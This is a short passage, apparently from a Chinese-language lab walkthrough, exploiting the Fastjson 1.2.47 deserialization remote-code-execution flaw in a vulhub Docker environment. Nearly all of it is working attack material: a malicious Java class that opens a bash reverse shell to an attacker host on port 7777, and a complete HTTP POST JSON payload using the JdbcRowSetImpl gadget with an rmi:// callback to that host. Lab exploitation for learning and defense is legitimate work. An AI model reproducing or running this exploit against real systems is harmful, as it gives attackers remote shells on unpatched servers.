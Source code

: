 发送payload请求，实现rce  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaR0WOuExVV6krSc4p0osYI9dwDs6jVliaFicSHt0JGsiccBHT1vZ5W2j0Bibyue1uZsUOrzMZCfwgicAVg/640?wx_fmt=png "")  
  
  
wget https://github.com/vulhub/vulhub/archive/master.zip -O vulhub-master.zip  
  
unzip vulhub-master.zip  
  
cd vulhub-master/fastjson//1.2.47-rce  
  
docker-compose up -d  
  
  
恶意代码类rce.java  
```
import java.lang.Runtime;
import java.lang.Process;

public class rce {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.10.115/7777 0>&1"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```  
  
  
构造payload  
```
POST / HTTP/1.1
Host: 10.10.10.36:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

{
    "name":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "x":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://10.10.10.115/rce",
        "autoCommit":true
    }
}
```  
  